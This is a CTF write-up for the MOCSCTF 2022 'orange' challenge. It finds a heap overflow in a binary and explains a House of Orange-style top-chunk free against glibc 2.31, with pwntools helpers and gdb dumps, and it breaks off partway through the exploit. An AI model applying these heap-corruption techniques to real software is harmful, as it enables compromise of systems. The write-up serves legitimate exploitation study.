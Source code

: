 # mocsctf2022.mocsctf.com - orange

### Reference source

https://1ce0ear.github.io/2017/11/26/study-house-of-orange/

https://4ngelboy.blogspot.com/2016/10/hitcon-ctf-qual-2016-house-of-orange.html

https://github.com/shellphish/how2heap

https://dystopia.sg/seccon-beginners-2021-freeless/

---

Origin challenge link: https://mocsctf2022.mocsctf.com/challenges

You can also download challenge in my repo: [orange.zip](orange.zip)

There will be 2 files in zip:

- freefree

- libc-2.31.so

Download zip, then extract and use `pwninit` to patch libc to challenge file. And now let's start!

# 1. Find bug

First, we use `file` command to check for basic infomation:

```
$ file freefree
freefree: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=88c0525daecc504cb81ee1e9104e218cfa4ffdc6, for GNU/Linux 3.2.0, not stripped
```

This is a 64-bit file without being stripped. Next, we will use `checksec` to check for all security of challenge file:

```
$ checksec freefree
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Well, it's `PIE enabled`, quite hard for us when we need to debug things. Also `NX enabled` which means we cannot get our shellcode on stack works. 

Finally, let's fire up ghidra and get the main flow of program. There are just 1 interesing function is main() with 4 option `malloc`, `gets` which we input to chunk, `puts` which print out data of that chunk terminated by null-byte and `exit`.

Let's run the program to get it easily. At the menu, we can see things like this:

![menu.png](images/menu.png)

It tells us that we could use a technique called [House of Orange](https://github.com/shellphish/how2heap/blob/master/glibc_2.23/house_of_orange.c). Analizing in ghidra and run in terminal, we know that it can take the variable name from `A` to `Z` by getting its index:

![variable.png](images/variable.png)

So that `X` can be from `A` to `Z`:

![input_var_terminal.png](images/input_var_terminal.png)

This means we can contain and control upto 25 chunk. And one more thing we can notice is that with each chunk, we can write unlimited data to that chunk, hence overwrite the next chunk --> **Heap Overflow**:

![gets_main.png](images/gets_main.png)

And that's all we can find, just 25 chunks with **Heap Overflow** and no free(), let's see the magic right now!

# 2. Brainstorming

If you are not familiar with heap, just read this to know about all kinds of chunk: https://guyinatuxedo.github.io/25-heap/index.html

### Technique

The main thing to remember is that if we malloc(0x1000) but top chunk size is just 0x300, which means that top chunk cannot satisfy the malloc. Hence, that top chunk will be freed and program will malloc 0x1000 byte on the next page of heap.

The other thing is that we can only malloc maximum 0x1000 bytes.

To be clear, we will take this example below. The heap is usually allocated with a top chunk of size 0x21000. So when we malloc a 0x400-byte chunk, the top chunk will split itself and remain `0x21000 - 0x400 = 0x20c00` with the bit `PREV_INUSE` is set:

![Technique_malloc1.png](images/Technique_malloc1.png)

Now we want to malloc maximum 0x1000, so the top chunk size need to be lower than 0x1000 to conduct this technique. Let's assume that we can change the top chunk size by somehow. Because there is a check about the alignment of top chunk so just to make sure that:

```
(top chunk address + top chunk size) % 0x1000 == 0
```

In our example, the size we want to overwrite into is `0xc00`:

![Technique_malloc4.png](images/Technique_malloc4.png)

Address `0x55555555b000` can satisfy the alignment so we will change top chunk size from 0x20c00 to 0xc00 with the `PREV_INUSE` bit is set.

![Technique_malloc2.png](images/Technique_malloc2.png)

So that when we malloc with a large number `malloc(0x1000)`, that top chunk cannot satisfy our malloc. Then that top chunk will be freed without any error:

![Technique_malloc3.png](images/Technique_malloc3.png)

Because top chunk size is 0xc00, which is large. So when top chunk is freed, it goes to unsorted bin. 

So if our top chunk size is small enough, which fit size of tcache, when we use this technique to free the top chunk, it will go to tcache bin. That's sound interesting, right?

- Summary technique:
  1. We can malloc maximum 0x1000 bytes
  2. Malloc chunk larger than top chunk will free that top chunk
  3. Overwriting top chunk size require 2 constraints:
    - The size of top chunk need to be aligned with size of 0x1000 (`(top chunk address + top chunk size) % 0x1000 == 0` )
    - The `PREV_INUSE` bit need to be set

### Brainstorming

With the origin House of Orange, it first frees the top chunk, then fake the `_IO_list_all` so that when we malloc again, it will execute `_IO_list_all` with string `/bin/sh`. But that's just for libc <= 2.23 because those libc from >=2.24, the check is changed so faking `_IO_list_all` is not successful anymore.

Because our provided libc is 2.31, we still can free the top chunk. First we make a large top chunk, then free it will give us libc main arena address. Next we will free 2 times with 2 small top chunk. So that those small top chunk can go to tcache bin (libc >=2.28 has tcache enabled).

And then, we abuse the tcache link list by overwriting the forward pointer to whatever we want and we get the shell.

- Summary:
  1. Leak main arena address
  2. Get shell

# 3. Exploit

Before we start our exploitation, I wrote these function to help our exploit more convenient

<details>
<summary>Code snippet</summary>
<p>

```
def malloc(var, num):
  p.sendlineafter(b'> ', '{}=malloc({})'.format(var, num).encode())

def gets(var, data):
  p.sendlineafter(b'> ', 'gets({})'.format(var).encode())
  time.sleep(0.1)
  p.sendline(data)

def puts(var):
  p.sendlineafter(b'> ', 'puts({})'.format(var).encode())
  # Receive data outside
```

</p>
</details>

And now let's start!

### Stage 1: Leak main arena address

At first, we will need a chunk with index `A` with any size so that we can overwrite all the next chunk with just chunk `A`:

```
malloc('A', 0x20-0x10)
```

Why I have to subtract `0x10`? Just to make sure that the chunk we malloc will have the proper size as we want so subtract `0x10` means subtract from the size of metadata of chunk. Now let's see where our chunk `A` is saved on stack after a first malloc:

```
0x00007ffcdc94e420│+0x0000: "A=malloc(32)\n"   ← $rax, $rsp, $rdi
0x00007ffcdc94e428│+0x0008: 0x0000000a29323328 ("(32)\n"?)
0x00007ffcdc94e430│+0x0010: 0x000055b1275242a0  →  0x0000000000000000    # Chunk A
0x00007ffcdc94e438│+0x0018: 0x0000000000000000    # Chunk B
0x00007ffcdc94e440│+0x0020: 0x0000000000000000    # Chunk C
0x00007ffcdc94e448│+0x0028: 0x0000000000000000    # Chunk D
0x00007ffcdc94e450│+0x0030: 0x0000000000000000    # Chunk E
0x00007ffcdc94e458│+0x0038: 0x0000000000000000    # Chunk F
...
```

So it just save our malloc address from chunk `A` to chunk `Z` like that. Now let's check the top chunk size:

```
gef➤  x/20xg 0x000055b1275242a0-0x10
0x55b127524290: 0x0000000000000000  0x0000000000000031    <-- Chunk A
0x55b1275242a0: 0x0000000000000000  0x0000000000000000
0x55b1275242b0: 0x0000000000000000  0x0000000000000000
0x55b1275242c0: 0x0000000000000000  0x0000000000020d41    <-- Top chunk
0x55b1275242d0: 0x0000000000000000  0x0000000000000000
0x55b1275242e0: 0x0000000000000000  0x0000000000000000
0x55b1275242f0: 0x0000000000000000  0x0000000000000000
0x55b127524300: 0x0000000000000000  0x0000000000000000
0x55b127524310: 0x0000000000000000  0x0000000000000000
0x55b127524320: 0x0000000000000000  0x0000000000000000
```

So our top chunk size now is `0x20d41` with the `PREV_INUSE` bit set. If we want to free that top chunk using the above technique (malloc a chunk larger than top chunk), we need to make our top chunk to be smaller because we can only malloc maximum 0x1000, which means we need to malloc around 20 chunks with size 0x1000. That would be long.

So we will change the top chunk size with the **Heap Overflow** bug. Remember that our top chunk is aligned with 0x1000 so we need to calculate the top chunk size first:

```
>>> hex(0x0000000000020d41 % 0x1000)
'0xd41'
```

So overwriting `0xd41` to top chunk size and malloc `0x1000` byte will free our top chunk.

After overwrite top chunk size:

```
gef➤  x/10xg 0x000055bcc84602a0-0x10
0x55bcc8460290: 0x0000000000000000  0x0000000000000021
0x55bcc84602a0: 0x0000000000000000  0x0000000000000000
0x55bcc84602b0: 0x0000000000000000  0x0000000000000d41
0x55bcc84602c0: 0x0000000000000000  0x0000000000000000
0x55bcc84602d0: 0x0000000000000000  0x0000000000000000
```

After malloc(0x1000):

```
```